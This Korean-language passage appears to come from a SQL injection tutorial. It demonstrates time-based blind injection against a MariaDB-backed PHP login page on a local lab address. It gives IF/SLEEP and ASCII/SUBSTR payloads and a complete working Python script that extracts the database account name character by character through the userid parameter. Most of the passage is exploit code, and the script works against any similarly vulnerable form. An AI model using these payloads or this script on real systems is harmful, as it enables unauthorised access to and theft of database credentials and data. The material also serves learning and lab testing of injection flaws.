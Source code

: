 결과는 다음과 같다.

	VERSION : 10.3.34-MariaDB-0ubuntu0.20.04.1

## **DBMS 계정 확인**

참과 거짓의 결과 정보를 이용하여 DBMS의 계정을 획득해보자.

다음과 같이 DBMS 계정의 문자열 길이를 확인할 것이고, URL 인코딩을 시키기 위해 requests.utils.quote를 사용한다.

SLEEP을 이용하기 때문에 참이면 일정 시간동안 딜레이가 걸릴 것이다.

```py
QUERY       = requests.utils.quote(f'\' OR IF(LENGTH(USER())={i},SLEEP({SLEEP_TIME}),SLEEP(0))#')
```

쿼리의 결과가 참일 경우 DBMS 계정의 문자열 길이를 알 수 있다.

```py
REQUEST     = requests.get(url=URL)
if END_TIME - START_TIME > SLEEP_TIME:
    RESULT_LENGTH = i
    break
```

DBMS의 계정을 확인하기 위해 SUBSTR로 한글자씩 맞춰나갈 것이며, 대소문자를 구분하기 위해 ASCII함수를 사용하자.

```py
QUERY       = requests.utils.quote(f'\' OR IF(ASCII(SUBSTR(USER(),{i+1},1))={ord(s)},SLEEP({SLEEP_TIME}),SLEEP(0))#')
```

마찬가지로 쿼리의 결과가 참일 경우 DBMS 계정의 문자열 일부를 알 수 있다.

다음의 Full Code로 DBMS의 계정을 확인해보자.

```py
import requests
import string
import time

TARGET          = 'http://192.168.0.58/index.php'
SLEEP_TIME      = 0.5
RESULT          = ''
RESULT_LENGTH   = 0

for i in range(100):
    QUERY       = requests.utils.quote(f'\' OR IF(LENGTH(USER())={i},SLEEP({SLEEP_TIME}),SLEEP(0))#')
    URL         = TARGET + f'?userid={QUERY}&password=123'
    START_TIME  = time.time()
    REQUEST     = requests.get(url=URL)
    END_TIME    = time.time()
    if END_TIME - START_TIME > SLEEP_TIME:
        RESULT_LENGTH = i
        break
print(f'USER LENGTH : {RESULT_LENGTH}')

for i in range(RESULT_LENGTH):
    for s in string.printable.strip():
        QUERY       = requests.utils.quote(f'\' OR IF(ASCII(SUBSTR(USER(),{i+1},1))={ord(s)},SLEEP({SLEEP_TIME}),SLEEP(0))#')
        URL         = TARGET + f'?userid={QUERY}&password=123'
        START_TIME  = time.time()
        REQUEST     = requests.get(url=URL)
        END_TIME    = time.time()
        if END_TIME - START_TIME > SLEEP_TIME: RESULT += s
print(f'USER : {RESULT}')
```
